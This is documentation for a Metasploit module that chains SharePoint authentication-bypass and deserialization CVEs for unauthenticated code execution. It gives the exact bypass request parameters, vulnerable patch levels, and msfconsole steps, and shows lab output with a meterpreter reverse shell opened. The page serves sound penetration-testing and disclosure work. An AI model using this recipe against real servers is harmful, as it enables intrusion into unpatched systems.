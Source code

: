 ## Vulnerable Application
This module exploits the authentication bypass vulnerability `CVE-2025-53771` (a patch bypass of `CVE-2025-49706`),
and an unsafe deserialization vulnerability `CVE-2025-53770` (a patch bypass of `CVE-2025-49704`), to achieve
unauthenticated RCE against a vulnerable Microsoft SharePoint Server.

`CVE-2025-49706` is an authentication bypass affecting Microsoft SharePoint Server, allowing a remote unauthenticated
attacker to reach the ToolPane page, located at the `/_layouts/15/ToolPane.aspx` URI. The auth bypass works if an
attacker supplies the following elements to an HTTP request:

* An HTTP Referer header with one of the values `/_layouts/SignOut.aspx`, `/_layouts/14/SignOut.aspx`, or `/_layouts/15/SignOut.aspx`.
* An HTTP query parameter named `DisplayMode` with the value `Edit`.
* An HTTP query parameter with any name and the value `/ToolPane.aspx`, so long as this is the last query parameter.
* An HTTP form parameter named `MSOTlPn_Uri` with the full URL to the `/_controltemplates/15/AclEditor.ascx` endpoint.

`CVE-2025-53771` is a patch bypass for `CVE-2025-49706`. By appending a trailing `/` to the target
`/_layouts/15/ToolPane.aspx` URI, e.g. `/_layouts/15/ToolPane.aspx/` a remote unauthenticated attacker can reach
the ToolPane page.

`CVE-2025-49704` is an unsafe deserialization vulnerability due to bypassing a filter list to allow the instantiation of
`LosFormatter` and `ObjectDataProvider` in the `diffgr:diffgram` XML document, allowing us to kick off a second
stage deserialization gadget (which will be a `TypeConfuseDelegate` + `LosFormatter` gadget chain).

`CVE-2025-53770` is a patch bypass of `CVE-2025-49704`. The patch for `CVE-2025-49704` did not apply correctly to a
SharePoint site that had not also manually run a configuration upgrade. While the patch for `CVE-2025-49704` did not
address the root cause, and instead marked the `Microsoft.PerformancePoint.Scorecards.Client` assembly as unsafe, the
patch for `CVE-2025-53770` instead correctly addresses the root cause of `CVE-2025-49704` while also not relying
on a manual configuration update to be performed.

## Testing
This exploit module has been successfully tested against the following versions:

* SharePoint Server 2019 `16.0.10337.12109` - This is the RTM version. Is vulnerable to all 4 CVEs. Exploitation
is reliable.
* SharePoint Server 2019 `16.0.10417.20018` - This is the June 2025 patch level (`KB 5002729)`. Is vulnerable to
all 4 CVEs. Exploitation is reliable.
* SharePoint Server 2019 `16.0.10417.20027` - This is the July 2025 patch level (`KB 5002741`). This patched
out `CVE-2025-49704` and `CVE-2025-49706`, but is vulnerable to `CVE-2025-53770` and `CVE-2025-53771`. Exploitation is
reliable **unless the site administrator has manually performed a configuration update**.

### Setup

Installing Microsoft SharePoint is non-trivial. This [setup guide](https://gist.github.com/testanull/e1573437f91ec3726ab5041389c6f28d)
is a great step-by-step tutorial to get up and running.

After you install SharePoint, you must create a new site, bound to a new port. This is what the exploit will target.

_NOTE: If you enable HTTPS, you will need to manually setup certificates via IIS Manager._

## Verification Steps

1. Start msfconsole
2. `use exploit/windows/http/sharepoint_toolpane_rce`

Configure the target:

3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_HTTP_OR_HTTPS_PORT>`
5. `set SSL true` (If targeting HTTPS)

Configure the payload:

_NOTE: If testing with the default Meterpreter payloads, you will likely need to disable Defender._

6. `set PAYLOAD cmd/windows/http/x64/meterpreter_reverse_tcp`
7. `set LHOST eth0`
8. `set LPORT 4444`

Run the exploit:

9. `check`
10. `exploit`

## Scenarios

### Example 1 (cmd/windows/http/x64/meterpreter_reverse_tcp)

```
msf exploit(windows/http/sharepoint_toolpane_rce) > show options 

Module options (exploit/windows/http/sharepoint_toolpane_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, socks5, socks5h, http
   RHOSTS   192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   EXTENSIONS                           no        Comma-separate list of extensions to load
   EXTINIT                              no        Initialization strings for extensions
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      ccMNrNsj         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.122   yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


   When FETCH_COMMAND is one of CURL:

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   FETCH_PIPE  false            yes       Host both the binary payload and the command so it can be piped directly to the shell.


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf exploit(windows/http/sharepoint_toolpane_rce) > check
[*] 192.168.86.50:80 - The target appears to be vulnerable. Detected Microsoft SharePoint Server 2019 version 16.0.10417.20027
msf exploit(windows/http/sharepoint_toolpane_rce) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected Microsoft SharePoint Server 2019 version 16.0.10417.20027
[*] Meterpreter session 3 opened (192.168.86.122:4444 -> 192.168.86.50:62290) at 2025-07-23 12:58:41 +0100

meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : TESTDOMAIN
Logged On Users : 24
Meterpreter     : x64/windows
meterpreter > pwd
c:\windows\system32\inetsrv
meterpreter > 
```

### Example 2 (cmd/windows/generic)

```
msf exploit(windows/http/sharepoint_toolpane_rce) > show options 

Module options (exploit/windows/http/sharepoint_toolpane_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, socks5, socks5h, http
   RHOSTS   192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/windows/generic):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
   CMD   notepad.exe      yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf exploit(windows/http/sharepoint_toolpane_rce) > exploit
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected Microsoft SharePoint Server 2019 version 16.0.10417.20027
[*] Exploit completed, but no session was created.
msf exploit(windows/http/sharepoint_toolpane_rce) >
```

You will be able to observe in Task Manager or Process Explorer that the `w3wp.exe` process has spawned `cmd.exe` which
has spawned `notepad.exe`.
